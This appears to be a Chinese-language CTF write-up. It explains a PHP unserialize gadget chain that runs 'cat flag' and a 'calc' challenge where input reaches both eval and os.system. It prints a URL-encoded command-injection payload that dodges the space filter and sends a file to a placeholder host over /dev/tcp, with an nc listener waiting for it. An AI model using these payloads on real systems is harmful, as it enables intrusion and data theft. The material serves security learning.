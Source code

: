 ```php
$cmd-> f1 -> a -> m1 -> v1 -> f1 ->m1 = '/n cat flag';
echo urlencode(serialize($cmd));
```

#### 为什么要url编码才能打?

Url中只允许包含英文字母（a-zA-Z）、数字（0-9）、-_.~4个特殊字符以及所有保留字符。简单来说，就是有些字符不允许出现在URL中，因此要进行编码。原payload中/n大括号什么的都不行，所以打不通。

#### \_\_destruct报错为什么不用管？

mix的参数不能又是对象又可以当字符串进行字符串拼接，因此报错是必然的，但是__destruct报错不用管，因为这时候已经echo了内容然后才触发报错。

### calc

题目的关键点是发现传入的num参数会先被eval执行然后又被os.system执行，想办法输入eval不报错但是可以在shell中运行的代码是解题的关键思路

#### 解法一 

来自0rays nazo师傅的思路

```python
log = "echo {0} {1} {2}> ./tmp/log.txt".format(time.strftime("%Y%m%d-
%H%M%S",time.localtime()),ip,num)
print(log)
if waf(num):
try:
data = eval(num)
os.system(log)
except:
pass
return str(data)
```



这里首先是空格的过滤用换行绕过

在自己的服务器上nc -n -lvvp port，再用payload打就可以先ls看一下flag文件名字然后再打印flag出来。

payload:`%27%27%271%27%0Acat%09/Th1s*%09%3E%09/dev/tcp/x.x.x.x/port%0A%23%273%27%27%27`

实际执行

```python
echo {0} {1} '''1'
cat /T* > /dev/tcp/x.x.x.x/port
#'3'''> ./tmp/log.txt

```

eval的时候 "'  '" 三引号 里面的内容当字符串，不报错

os.system的时候#注释后面内容 cat这个语句被执行

![image-20220326223131140](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220326223131140.png)

![image-20220326223259199](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220326223259199.png)

